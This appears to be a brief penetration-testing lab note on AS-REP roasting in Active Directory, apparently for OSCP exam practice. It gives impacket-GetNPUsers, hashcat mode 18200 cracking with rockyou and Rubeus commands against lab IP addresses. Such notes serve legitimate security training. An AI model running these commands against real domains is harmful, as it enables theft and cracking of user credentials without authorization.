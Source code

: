 ```yaml
---
IP_KALI: 192.168.45.155
DCIP: 10.10.143.152
DOMAIN: MS01.oscp.exam
USER: celia.almeda
---
```

On kali:
- impacket-GetNPUsers -dc-ip <span id="DCIP"/>10.10.143.152<span type="end"/>  -request -outputfile hashes.asreproast <span id="DOMAIN"/>MS01.oscp.exam<span type="end"/>/<span id="USER"/>celia.almeda<span type="end"/>

Get hashcat mode:
```
hashcat --help | grep -i "Kerberos"
```

Crack hash:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


On windows:
To identify users with the enabled AD user account option _Do not require Kerberos preauthentication_, we can use PowerView's _Get-DomainUser_ function with the option **-PreauthNotRequired** on Windows.
```
.\Rubeus.exe asreproast /nowrap
```

